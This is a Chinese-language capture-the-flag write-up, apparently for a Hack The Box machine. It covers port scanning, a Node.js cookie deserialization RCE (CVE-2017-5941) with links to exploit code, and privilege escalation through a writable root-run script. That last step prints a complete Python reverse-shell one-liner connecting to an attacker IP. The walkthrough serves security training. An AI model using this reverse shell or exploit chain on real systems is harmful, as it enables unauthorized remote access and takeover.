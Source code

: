 # 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.85 -oA scans/ports
...
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
...
```

## Web - port 3000

就开了个3000端口，访问看看

![截图](2792f6a31a5ac435ec145e999e8468b1.png)

```
HTTP/1.1 200 OK
X-Powered-By: Express
Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Mon, 02 Apr 2018 00:47:44 GMT; HttpOnly
Content-Type: text/html; charset=utf-8
Content-Length: 12
ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
Date: Mon, 02 Apr 2018 00:32:44 GMT
Connection: close

<h1>404</h1>
```

刷新时，页面将返回：

![截图](f5fd8cd83ad6591c95d279341e42c672.png)

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 21
ETag: W/"15-iqbh0nIIVq2tZl3LRUnGx4TH3xg"
Date: Mon, 02 Apr 2018 00:33:59 GMT
Connection: close

Hey Dummy 2 + 2 is 22
```

可以注意到：cookie是 base64 编码的。

![截图](a17f72d37564c03585ab359c79b43ebf.png)

# 漏洞检测与利用

使用bp抓包修改请求包并查看。

![截图](c554a81489b318e9fd3a8d83ee8792d8.png)

随便改个数字3在burpsuite上配置编码为base64得到如下报错信息

![截图](7ebe6cd784e9bdc20bf7118c3ca050c8.png)

看显示是跟nodejs有关，搜索了下对应名称是否含有漏洞，确认存在反序列化远程代码执行漏洞，参考链接：https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

再搜索下exploit ，具体exploit地址：https://hd7exploit.wordpress.com/2017/05/29/exploiting-node-js-deserialization-bug-for-remote-code-execution-cve-2017-5941/

exploit代码：https://github.com/hoainam1989/training-application-security/blob/master/shell/node_shell.py.

具体操作如下：

![截图](96dc845a2639bcaa03b8d211510f6daf.png)

![截图](fd101879755515567d377c1b23f1ab43.png)

成功反弹shell，获取了user.txt信息，尝试提权，执行了sudo -l需要无果，看到当前目录含有一个脚本

![截图](0b8b37dafe7cd927f6fb441f4d6f5a86.png)

显示脚本是在运行，下载pspy到目标靶机执行得到如下结果.

> https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1

![截图](d85f74d8888a1f696080dfbcf400d028.png)

确认文件script.py可以写入文件，使用vi编辑器写入反弹代码

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.5",8844));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

等待反弹shell，差不多等了5-10分钟成功反弹shell

![截图](153aa63a08d71899112645ba4e00d37a.png)